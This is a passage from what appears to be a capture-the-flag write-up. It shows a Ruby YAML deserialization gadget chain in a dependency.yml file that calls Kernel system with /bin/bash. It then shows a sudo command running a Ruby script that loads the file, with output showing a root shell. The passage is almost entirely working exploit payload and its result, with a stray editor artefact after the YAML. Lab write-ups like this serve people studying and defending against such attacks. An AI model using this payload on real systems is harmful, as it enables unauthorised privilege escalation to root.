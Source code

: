 
{% highlight ruby %}
dependency.yml

---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: /bin/bash
         method_id: :resolve
~           ```

{% endhighlight %}

Running the script using **sudo** we should be able to spawn a **root** shell.

{% highlight shell %}
sudo /usr/bin/ruby /opt/update_dependencies.rb

henry@precious:/tmp/.xab$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
root@precious:/tmp/.xab# id
uid=0(root) gid=0(root) groups=0(root)
root@precious:/tmp/.xab# 


{% endhighlight %}
















